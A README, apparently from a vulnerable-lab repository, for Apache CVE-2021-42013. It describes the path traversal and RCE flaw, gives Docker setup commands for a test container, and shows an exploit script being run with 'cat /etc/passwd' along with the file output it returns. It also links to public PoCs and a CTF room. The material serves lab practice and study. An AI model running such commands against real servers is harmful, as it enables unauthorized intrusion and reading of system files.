 # CVE-2021-42013
It was found that the fix for [CVE-2021-41773](https://github.com/the29a/VulnForge/tree/main/webservers/apache/CVE-2021-41773) in Apache HTTP Server 2.4.50 was insufficient. An attacker could use a path traversal attack to map URLs to files outside the directories configured by Alias-like directives. If files outside of these directories are not protected by the usual default configuration "require all denied", these requests can succeed. If CGI scripts are also enabled for these aliased pathes, this could allow for remote code execution. This issue only affects Apache 2.4.49 and Apache 2.4.50 and not earlier versions.


## Metrics
CVSSv2: 7.5 HIGH   
CVSSv3: 9.8 CRITICAL     

## Vulnerability Environment
Build and run:
```bash
docker compose build
docker compose up -d
```

Find Apache IP:
```bash
docker inspect -f '{{range .NetworkSettings.Networks}}{{.IPAddress}}{{end}}' apache_cve_2021_42013
```

Stop Environment and remove network
```bash
docker compose down
```

## Detection and exploitation example
### Exploitation example:
```bash
❯ ./CVE-2021-42013.sh 172.18.0.2 "cat /etc/passwd"
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

## Exploits and PoCs
https://github.com/walnutsecurity/cve-2021-42013

## Nuclei Template
https://github.com/projectdiscovery/nuclei-templates/blob/main/http/cves/2021/CVE-2021-42013.yaml

## CTF Rooms
[TryHackMe: CVE-2021-41773/42013](https://tryhackme.com/r/room/cve202141773)

## References
[NIST: CVE-2021-42013](https://nvd.nist.gov/vuln/detail/cve-2021-42013)